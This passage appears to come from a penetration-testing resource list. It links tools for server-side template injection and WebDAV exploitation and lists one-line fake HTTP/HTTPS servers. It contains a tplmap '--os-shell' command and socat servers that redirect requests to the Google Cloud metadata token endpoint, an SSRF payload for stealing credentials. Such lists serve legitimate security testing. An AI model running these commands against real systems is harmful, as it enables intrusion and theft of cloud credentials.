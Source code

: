 https://portswigger.net/research/server-side-template-injection
<br># Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection, a frequently critical vulnerability that is extremely easy to mistake for Cross-Site Scripting (XSS), or miss entirely. Unlike XSS, Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

https://github.com/epinna/tplmap
<br># Tplmap assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system.
<br>```tplmap.py --os-shell -u 'http://www.example.com/page?name=John'```

### <a name="WebDAV"></a>WebDAV (Web Distributed Authoring and Versioning)
http://www.webdav.org/cadaver/
<br># cadaver is a command-line WebDAV client for Unix.

https://github.com/cldrn/davtest
<br># This program attempts to exploit WebDAV enabled servers.

### Generic Tools
https://gchq.github.io/CyberChef/
<br># The Cyber Swiss Army Knife

https://packettotal.com/
<br># Pcap analysis and samples

### <a name="General-Manual"></a>General
https://httpbin.org/
<br># A simple HTTP Request & Response Service.

<br># Fake HTTP Server
<br>```while true ; do echo -e "HTTP/1.1 200 OK\nContent-Length: 0\n\n" | nc -vl 1.2.3.4 80; done```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```python2 -m SimpleHTTPServer 8080```
<br>```python3 -m http.server 8080```
<br>```php -S 0.0.0.0:80```
<br>```ruby -run -e httpd . -p 80```
<br>```busybox httpd -f -p 80```
    
<br># Fake HTTPS Server
<br>```openssl req -new -x509 -keyout test.key -out test.crt -nodes```
<br>```cat test.key test.crt > test.pem```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=test.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=web.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
